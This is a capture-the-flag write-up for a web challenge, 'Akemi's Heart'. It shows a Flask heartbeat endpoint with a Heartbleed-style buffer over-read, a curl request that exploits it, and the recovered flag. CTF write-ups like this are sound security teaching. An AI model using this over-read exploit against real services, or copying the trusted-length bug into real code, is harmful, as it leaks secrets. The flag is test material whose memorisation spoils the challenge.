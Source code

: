 # Akemi’s Heart

<img width="787" height="333" alt="Screenshot 2025-09-15 120024" src="https://github.com/user-attachments/assets/fce1f475-f0de-404b-8364-76c7ee4a7f4d" />

## Challenge

<img width="791" height="614" alt="Screenshot 2025-09-15 120250" src="https://github.com/user-attachments/assets/6da94418-e2b9-4f65-a8b2-abf3d54e0dba" />

A Flask app exposes `POST /heartbeat` that echoes your JSON:
```json
{"payload": "hi", "length": 5}
```

It always returns exactly length bytes. If your payload is shorter, it pads with a secret buffer `secret_blob`. That buffer is:

512 random bytes followed by the contents of `/flag.txt`

Code snippet: 

```python
# secret buffer = random junk + flag
secret_blob = secrets.token_bytes(512)
if os.path.exists("/flag.txt"):
    with open("/flag.txt", "rb") as f:
        secret_blob += f.read()

# heartbeat endpoint
data = request.get_json(force=True, silent=True)
payload_bytes = (data.get("payload", "")).encode()
length = int(data.get("length", 0))

extra_needed = length - len(payload_bytes)
if extra_needed <= 0:
    resp = payload_bytes[:length]
else:
    # BUG: trusts client `length`, pads with secret data
    resp = payload_bytes + secret_blob[:extra_needed]
return make_response(resp, 200, {"Content-Type": "application/octet-stream"})
```

## Solution
Exploit the trusted `length`: send a tiny (or empty) `payload` with a large `length`.
The server pads with `secret_blob`, and after the first 512 random bytes, the flag appears.

Notes:

- Any `length > 512 + len(payload)` works (e.g., 1024, 2048, 4096, 8192).
- Filter output for keywords like `GCTF`, `flag`, `ctf`.

## Flag

```bat
curl -s http://host:port/heartbeat -H "Content-Type: application/json" -d "{\"payload\":\"\",\"length\":8192}" | findstr /i "flag CTF GCTF"
```

```flag
GCTF25{aK4mI_H3ARTY_tl$SU3_saD_so_$AD_c1737cad162e}
```



